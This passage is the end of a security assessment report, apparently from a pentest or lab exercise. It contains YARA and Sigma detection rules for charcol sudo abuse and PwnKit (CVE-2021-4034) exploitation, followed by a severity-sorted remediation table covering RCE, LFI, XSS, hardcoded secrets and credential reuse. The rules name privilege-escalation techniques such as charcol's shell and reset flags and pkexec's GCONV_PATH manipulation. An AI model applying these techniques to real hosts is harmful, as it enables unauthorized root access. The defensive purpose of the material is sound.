        $magic = { 41 45 53 02 00 00 }
        $creator = "CREATED_BY"
    condition:
        $magic at 0 and $creator
}
```

**Sigma: Charcol Sudo Abuse**

YAML

```
title: Charcol Sudo Abuse
id: charcol-privesc-001
status: experimental
description: Detects the execution of charcol with sudo and shell/reset flags
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith: '/charcol'
        CommandLine|contains:
            - '-R'
            - 'shell'
    condition: selection
level: high
```

**Sigma: PwnKit (CVE-2021-4034) Attempt**

YAML

```
title: PwnKit Exploitation Attempt
id: cve-2021-4034-detect
status: stable
description: Detects attempts to exploit PwnKit (pkexec) by looking for suspicious environment variable manipulation.
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith: '/pkexec'
        CommandLine|contains: 'PATH='
        CommandLine|contains: 'GCONV_PATH='
    condition: selection
level: critical
```

---

## 4. Remediation & Risk Matrix

_Sorted by Severity (CVSS v3.1). Includes new findings from LinPEAS analysis._

|**ID**|**Vulnerability / Finding**|**Severity**|**CVSS**|**Remediation Strategy**|
|---|---|---|---|---|
|**VULN-03**|**Command Injection (RCE)**|🔴 **CRITICAL**|**9.8**|Sanitize input in ImageMagick implementation. Update policy.xml to disable vulnerable coders (`MVG`, `MSL`).|
|**VULN-05**|**Privilege Escalation (Charcol)**|🔴 **CRITICAL**|**8.8**|Remove SUID bit or restrict `charcol` sudo permissions. Patch logic to prevent "auto add" of root jobs.|
|**VULN-07**|**Unpatched Kernel (PwnKit)**|🔴 **HIGH**|**7.8**|**System Patching:** Update `polkit` package immediately (`apt-get update && apt-get install policykit-1`). Remove SUID from `pkexec` if update is not possible.|
|**VULN-02**|**Local File Inclusion (LFI)**|🟠 **HIGH**|**7.5**|Implement strict whitelist validation for file paths. Disable `allow_url_include`.|
|**VULN-01**|**Stored XSS**|🟠 **HIGH**|**7.4**|Implement Context-Aware Output Encoding. Deploy CSP headers.|
|**VULN-06**|**Hardcoded Secret (Env Var)**|🟠 **HIGH**|**7.4**|**Secret Rotation:** Revoke `CRON_BYPASS_TOKEN`. Move secrets to a Vault (HashiCorp/AWS Secrets Manager) and inject at runtime, avoiding global env exposure.|
|**VULN-04**|**Credential Reuse (Backup)**|🟡 **MEDIUM**|**5.5**|Enforce strong, unique password policies. Rotate the `mark` user credentials.|

---

**END OF REPORT**

---
---
